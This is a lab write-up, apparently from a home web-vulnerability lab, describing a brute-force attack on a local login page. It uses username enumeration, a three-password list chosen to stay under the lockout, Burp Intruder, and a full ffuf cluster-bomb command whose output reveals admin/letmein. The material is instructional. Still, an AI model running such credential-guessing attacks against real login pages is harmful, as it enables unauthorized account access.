 # Challange

**Warning: Accounts will lock after 5 failed login attempts!**

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/bf052298-9a01-4ceb-9b95-3edff09db0ac)

- On trying a random username and password we got 1 incorrect login attempt.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/bbb01de2-37bc-4443-bb2e-9b0e957f0912)

- While submitting another random username and password we revert nothing, so here is the indication that the admin user exists.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/88f63aba-2d2f-4a92-a999-f6e2e7e6a460)

- We will make a list of the top 3 most used passwords to not let the accounts lock.
  - Passwords: letmein, 123456, teashop
- Next, we will intercept the request and send it to the intruder.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cbc5dc36-d8ea-4d80-937d-ba3442b9d5d5)

- Next, we will use the attack method as cluster bomb load the username list and the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/b10fa344-0272-4c2c-b6e4-c7ef1f4fafb2)

- After clicking on start attack we have got the user `admin` and password `letmein`.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/23b9c815-4b5f-4baa-bd98-76ce639a40d9)

- On entering the details of user admin and password letmein. We have successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/71df3f6f-5534-4a2d-967f-8f5ffa7082c7)

## Alternate:

- We can use the tool called ffuf,wffuf, and hydra to achieve the same. This time let's use ffuf.
- For using ffuf we need to copy the request and save it to a file in the local machine.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/344da305-c1d7-4862-9b4c-cdfb0f3cf384)

- On saving the request to the file, we need to do some modifications to the file by defining the arguments to get suitable results.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/02e71889-c2f0-488a-a5a8-510cbd2f20c0)

- Make a file of the top 3 passwords.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/84fa82ce-2062-4de1-95fa-09f3092e3f3a)

- By using the command: `ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/usernames-shortlist.txt:FUZZUSER -fs 3376,3256`

```bash
└─$ ffuf -request reqs.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x03.php
 :: Wordlist         : FUZZPASS: /home/singhx/labs/PEH/XSS/pass.txt
 :: Wordlist         : FUZZUSER: /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Host: localhost
 :: Header           : Origin: http://localhost
 :: Header           : Referer: http://localhost/labs/a0x03.php
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZUSER&password=FUZZPASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 3376,3256
________________________________________________

[Status: 200, Size: 3378, Words: 1270, Lines: 68, Duration: 3ms]
    * FUZZPASS: letmein
    * FUZZUSER: admin

:: Progress: [51/51] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
- Got the same credentials.
